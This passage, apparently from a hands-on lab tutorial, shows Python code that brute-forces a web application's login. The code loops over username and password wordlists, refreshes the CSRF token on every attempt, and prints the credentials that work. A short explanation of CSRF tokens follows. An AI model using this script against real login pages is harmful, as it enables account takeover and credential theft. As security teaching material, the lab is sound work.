 ```python
    if "Login failed" not in response.text:
        return True
    return False

# Read usernames and passwords from files
with open(path_users_file, 'r') as f:
    usernames = [line.strip() for line in f]
with open(path_passwords_file, 'r') as f:
    passwords = [line.strip() for line in f]

# Initialize session and validate connection
session = requests.Session()
response = session.get(url_base)
if response.status_code != 200:
    print("Unable to connect to the application.")
    exit()

# Main script logic
csrf_token = get_csrf_token(session)
if not csrf_token:
    exit()

for username in usernames:
    for password in passwords:
        csrf_token = get_csrf_token(session)  # Refresh token for each attempt
        if attempt_login(session, username, password, csrf_token):
            print(f"Success! Username: {username}, Password: {password}")
            break
```
> Note: Replace `<poridhi-load-balancer-url>` with the URL of the Poridhi's load balancer as 

```bash
https://<poridhi-load-balancer-url>/
```
![](./images/6.png)


## **CSRF Token Protection**

Cross-Site Request Forgery (CSRF) tokens are security measures used to prevent unauthorised actions on behalf of authenticated users. The script dynamically retrieves and includes this token in each login attempt to comply with server-side validation. In each login attemps, the application generates a new CSRF token. So each login attempt is a new request.
